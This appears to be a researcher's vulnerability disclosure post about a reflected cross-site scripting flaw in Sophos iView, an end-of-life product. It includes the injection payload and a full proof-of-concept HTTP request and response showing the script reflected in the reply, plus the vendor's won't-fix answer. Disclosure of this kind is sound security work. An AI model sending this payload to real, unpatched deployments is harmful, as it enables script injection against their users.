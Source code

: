 ```yaml
---
layout: post
title:  "Reflected Cross-Site scripting in Sophos iView"
date:   2023-04-30 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos iView (The EOL was December 31st 2020)

#### Product description:

Reflected XSS in the privileged user area, where i was able to set parameter 'json->"grpname"'s value to 'ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>'

That successfully embedded a script in the response, which was executed when the page loads in the user's browser.

* CVE ID: awaiting
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /iview
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Referer: https://10.0.0.112/webpages/index.jsp?empty=1_1&watermarkmsg=0
Cookie: JSESSIONID=189B80C28A886E98BBD17B7AEFF1B63C
Connection: Keep-Alive
Host: 10.0.0.112
X-Requested-With: XMLHttpRequest
Content-Length: 170
Cache-Control: no-cache
Accept: text/plain, */*; q=0.01
Accept-Language: en-US
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

mode=28&deviceprofile=123&json={"selecteddevices":"1","grpname":"ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>","description":"www"}&__RequestType=ajax

HTTP/1.1 200 200
Connection: Keep-Alive
Server: xxxx
Content-Length: 173
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=5, max=100
Cache-Control: max-age=2592000
Strict-Transport-Security: max-age=31536000; includeSubDomains
Date: Thu, 09 Jan 2020 14:54:39 GMT
Expires: Sat, 08 Feb 2020 14:54:39 GMT

{"reurl":"managedevicegroup.html?action=71020","message":"Device Group ww;<\/script>/<\/script/>/<svg/onload=alert('Sophos') width=100//> is already exists.","status":"500"}
{% endhighlight %}

![Java Script executed when the page loads in the user's browser](/static/img/sophos-iview.png)

Reply from Sophos via Bugcrowd:

"We are divesting the Sophos iView product, meaning that this particular vulnerability is accepted business risk. I will close this issue as Won't Fix"

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.firewalls.com/pub/media/wysiwyg/datasheets/Sophos/iView.pdf
3. https://vimeo.com/107872566
4. https://docs.sophos.com/nsg/sophos-iview/v03012/Help/en-us/webhelp/onlinehelp/index.html#page/onlinehelp/AccessDevice.html
